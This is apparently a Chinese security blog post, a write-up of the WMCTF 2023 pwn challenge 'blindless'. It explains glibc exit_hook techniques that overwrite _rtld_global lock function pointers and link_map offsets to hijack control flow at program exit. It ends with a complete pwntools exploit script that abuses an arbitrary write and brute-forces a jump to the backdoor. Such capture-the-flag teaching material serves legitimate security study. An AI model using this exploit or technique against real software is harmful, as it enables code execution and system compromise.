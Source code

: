 #  内存利用：迟来的blindless与逃不掉的exit漏洞   
N1nEmAn  蚁景网络安全   2025-04-23 09:35  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5znJiaZxqldyq3SBEPw0n6hCXNk6PmR3gyPFJDUCibH91GiaAHHKiaCpcsfnQJ2oImQunzubgDtpxzxNHONU88CypA/640?wx_fmt=gif&from=appmsg "")  
# 0x01 前言  
  
在计算机安全领域，漏洞的危险性往往与其广泛性和潜在攻击方式密切相关。今天，我们将深入探讨一个异常危险的漏洞，它存在于程序退出时执行的常见函数"exit"中。无论是在操作系统还是应用程序中，"exit"都是一个普遍存在的函数，通常用于正常退出程序。但这种普遍性也使得它成为了潜在的攻击目标。  
  
这个漏洞的威胁性在于，它不仅存在于各种程序中，而且有多种潜在的攻击方式。攻击者可以通过利用这一漏洞来执行恶意代码，获取系统权限，或者实施其他恶意行为。要理解这个漏洞的威胁，我们需要深入分析其背后的原理以及不同的利用方式。  
  
在本文中，我们将探讨这个漏洞的具体情况，并详细分析了两种主要的利用方式：一种是将程序流转向libc库中的函数，另一种是将程序流转向程序本身的代码段。我们将深入研究这两种攻击方式的原理，并展示了一个实际漏洞利用的示例。  
  
"blindless"是来自WMCTF 2023比赛的一个题目，虽然难度不高，但要深入理解并利用其中的漏洞，需要花费大量时间。本文总结了有关"exit_hook2libc"和"exit_hook2elf"的利用方法，旨在分享给大家学习。这题的关键是深入理解程序退出时执行的"exit"函数，以及如何通过不同方式实现漏洞利用。  
# 0x02 exit_hook的n种姿势  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPn67l3562S3Rkn8ANRQDrdeUmqkKWea7DNlSm5tFrzfuziaclslLw2I2Q/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
基地址放在此处供各位参考一下，用于计算指令偏移。  
### exit_hook2libc  
  
首先是p &_rtld_global  
（看地址），他有一个rtld_lock_default_lock_recursive  
和rtld_lock_default_unlock_recursive  
的元素可以改来调用。  
> 注意一定要用docker或者虚拟机，否则没有符号表会特别坐牢！  
  
  
执行p _rtld_global  
。看到那两个rtld_lock_default_lock_recursive  
和rtld_lock_default_unlock_recursive  
吗，就是他们两个。我们可以修改他们的内容，从而作为exithook进行调用（直接call）。把后面的东西复制过来p &xxx  
就可以查看其地址了。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPn5OMczvoJohdSqclLv0DHG2Nr373LlZEaZb7etdfZwYh3dgHK2XLEdw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
注意看，这个程序叫小帅，他调用的第一个参数就是rdi，是_rtld_global+2312  
，我们可以控制他的参数为/bin/sh\x00  
然后做坏坏的事情（如果能把rtld_lock_default_lock_recursive  
也改成system  
的话）。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPn16p338xBqjmsHgDmtzWUIJuicFpxTnW7licVUQfkjXnzNPqjEZ4uiajsw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
然后rtld_lock_default_unlock_recursive  
的参数也是2312这个偏移。  
> 注意这个2312是十进制。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnwjFfMiatr1obeYib2dc5xDTiaDbT2ibbxd6mh20XS9jT2Z6Z5icOxlDezgQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
好的，我们就修改这两个地方就可以为所欲为了，但是exit_hook  
到这里还没完。  
  
并且严格来说，这里并不是完全的exit_hook2libc  
，如果知道elf的地址也完全可以返回到elf上的函数。  
  
接下来还有更骚的，可以控制到程序上的地址（直接跳转，或者间接取地址跳转。）  
### exit_hook2elf  
#### 1.间接call  
  
这个在这里，第一个是间接call，即指令是call qword ptr [寄存器]  
，意思就是从寄存器的地址指向的内存里取地址，然后call。  
  
对于间接call的利用，我们可以修改他的偏移到任意函数got表，然后配合参数rdi_rtld_global+2312  
使用。  
> 例如修改_rtld_global+2312为"/bin/sh\x00"  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnTbqbsl3Ed8llXUsyKu8nrOstfWgESTOIR3zOTaW4BH0Nghjw8xdYAg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
这个的基地址和偏移是存在于link_map  
的，这样可以找到他的地址。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnSMtzjgz3lUNaUbBOEcu8mkMjnjl3t3qUbianaoPZ9QakHPEicuyibPibPA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
调试可以看到他会从这个地址的内存中取elf基地址，然后通过link_map地址+0x110存的地址取偏移。我们可以改基地址也可以选择改偏移。link_map地址+0x110是存第一个间接call的偏移的。  
> 注意存的是偏移-8的地址，也就是如果要改的话要改成目标-8。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnzKF8PDw3zicbojtsibg1qjJO3mBZH69ej3icqHtj2PpjRgn3xM8QZkniaQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
#### 2.直接call  
  
link_map地址+0xa8是存第二个直接call的偏移  
> 注意存的是偏移-8的地址，也就是如果要改的话要改成目标-8。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnSezAcdXfQT8Uwk4FMc4nv8SrWzt0y6qumbzPPXQtW8ia4oJZncHFzoQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
如果改偏移的话能改最好，还能直接形成调用链子。但是如果没有偏移，就只能改基地址了——也就是p &l  
出来那儿。但是这样肯定会损坏第一次call r14  
的，会导致无法正常进行。  
  
但是发现有一个地方判断可以跳过call r14  
。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnvErCCKZFhNjKIJaqIDe5N5xkU7JCgajCVr9G5ljvbBIDAZ72kRx39w/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
就是这里，test edx,edx  
是edx和edx相互and，留下标志位。简单来说就是如果是0，那么不跳转。如果是1，那么跳转。  
> 在x86汇编中，je  
 指令的作用是：  
> 1. 检查零标志位（ZF）是否被设置为 1。2. 如果零标志位被设置为 1，将进行跳转到指定的目标位置。  
  
  
回溯发现是从link_map+0x120  
取来的地址，也就是说想要这里为0，就把那里的地址指向为0的地方即可！不过也要注意，这里取的是地址+8，也就是我们要改成目标地址-8改进去。这里直接找bss段之类的即可。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPnGEib9aiaz2JzRsNkD3HialEZibkIkVF1eswkSdk2Oez4QDwmW5qkXSj0gg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
完成这个操作，就可以修改基地址达到任意直接call的效果了！即使没有泄露，也可直接返回到程序上（比如此题有后门）。如果有，那就是为所欲为！（和前面一样，如果有泄露真的就是为所欲为了）。  
# 0x03 exp  
  
那么本题目由于有brainfuck函数可以执行任意地址写，则根据前面的exit_hook可以做到提权。  
```
from pwn import *


n2b = lambda x    : str(x).encode()
rv  = lambda x    : p.recv(x)
rl  = lambda     :p.recvline()
ru  = lambda s    : p.recvuntil(s)
sd  = lambda s    : p.send(s)
sl  = lambda s    : p.sendline(s)
sn  = lambda s    : sl(n2b(n))
sa  = lambda t, s : p.sendafter(t, s)
sla = lambda t, s : p.sendlineafter(t, s)
sna = lambda t, n : sla(t, n2b(n))
ia  = lambda      : p.interactive()
rop = lambda r    : flat([p64(x) for x in r])
uu64=lambda data :u64(data.ljust(8,b'\x00'))

while True:

        context(os='linux', arch='amd64', log_level='debug')
        p = process('./main')
        context.terminal = ['tmux','new-window' ,'-n','-c']
        #gdb.attach(p)
        sla('ze',b'-10')#分配到libc上（用mmap）
        sla('ze',b'256')

        pay = b'@'+p32(2148618432)#到ld的地址+0x2f190的偏移
        pay += b'@'+p32(2148618432)
        pay +=b'.' + b'\xb1'
        pay += b'>.' + b'\x7c'#使得加了偏移之后是后门函数地址
        pay += b'@'+p32(0x11f)#修改0x120的地址，指向0，跳过call r14
        pay +=b'.' + b'\x00'
        pay += b'q'
        sla('code\n',pay)

        re = p.recvrepeat(0.1)#一直接收直到有回显
        #如果是system的话可以发一个cat flag再这样
        #这是个很好的爆破方式，学习学习
        if re:
            print('pwned!get your flag here:',re)
            exit(0)
        p.close()

```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcB3fY7RmMEozpXp3AzmWPn84kuXZrx489nvDiczx8hsV1gGDfGg66Qx4LkwHvoggyUX34kojNicqpw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldwoHriaVoyA6JNsGroYQAQp8xrlxS8RibJWibDF8T1pmkgSXqiaWQvmVB43S1IVCFBDOKTEQFDAP0QL5g/640?wx_fmt=png&from=appmsg "")  
  
